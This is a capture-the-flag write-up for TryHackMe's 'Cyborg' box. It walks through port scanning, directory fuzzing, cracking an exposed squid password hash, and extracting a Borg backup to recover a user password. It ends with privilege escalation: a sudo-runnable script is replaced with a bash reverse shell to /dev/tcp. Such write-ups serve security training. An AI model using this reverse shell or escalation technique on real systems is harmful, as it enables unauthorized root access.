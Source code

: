 ```bash
# PLATFORM          . THM
# CTF NAME          . Cyborg
# DESCRIPTION       . A box involving encrypted archives, source code analysis and more.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cyborgt8
```

```bash
sudo nmap -sSVC -T5 10.10.143.145 -p- -oN cyborg
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I have started a fuzzer while the nmap scan was running.

```
ffuf -u http://10.10.143.145/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
etc                     [Status: 301, Size: 312, Words: 20, Lines: 10]
```

- Inside `/etc` we find a directory called `squid` containing two files, `passwd` and `squid.conf`. 

```squid.conf
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

```passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

- We got the hash for whatever is `music_archive`.

- Running a simple `john` against this file reveals the password.

```
squidward        (music_archive)     
```

- The `admin` page has some information laying around, a stupid conversation - but the piece of information that matters to us is located in `Archive - Download`.

- We will download a `archive.tar` file that can be unzipped using `tar -xf`. It contains a folder called `home`. 

- By navigating to `/home/field/dev/final_archive` all we can find is some files that aren't of much use to us - in this form, at least.

```
config  data  hints.5  index.5  integrity.5  nonce  README
```

```README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

- So we know this is a Borg Backup. After some googling around, I found out that it can be easily installed and `borg list [path]` can be used to list Borg Backups in a certain path.

- Using `borg list /home/field/dev/final_archive` will ask for a passphase, which is the password found above.

```
music_archive                        Tue, 2020-12-29 16:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

- It seems that there's one Borg Backup. Let's extract it.

```
borg extract -v --list home/field/dev/final_archive/::music_archive
```

```
home/alex
home/alex/.bashrc
home/alex/.bash_logout
home/alex/.profile
home/alex/Music
home/alex/.bash_history
home/alex/.dbus
home/alex/.dbus/session-bus
home/alex/.dbus/session-bus/c707f46991feb1ed17e415e15fe9cdae-0
home/alex/.config

{trimmed for readability}

home/alex/.config/ibus
home/alex/.config/ibus/bus
home/alex/Documents
home/alex/Documents/note.txt
home/alex/Public
home/alex/Videos
home/alex/Desktop
home/alex/Desktop/secret.txt
home/alex/Downloads
home/alex/Templates
home/alex/Pictures
```

```bash
find . -name *.txt 

./Desktop/secret.txt
./Documents/note.txt
```

```secret
shoutout to all the people who have gotten to this stage whoop whoop!"
```

```note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:{redacted}
```

- Alright, so we have access to the box now. 

```
sudo -l

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- A simple cat reveals the source code of the script, which, in short, does backup of .mp3 files.

- However, a `ls -l` reveals that this file is owned by us, so we can replace its content with anything we like. And ...  you know what we like :) 

- **NOTE:** Use `chmod` to allow write permissions on the file first.

- After replacing the content with a bash reverse shell, run the script as `sudo /etc/mp3backups/backup.sh`

```backup.sh
#!/bin/bash
sh -i >& /dev/tcp/ip/port 0>&1
```

- The last flag is in `/root/root.txt`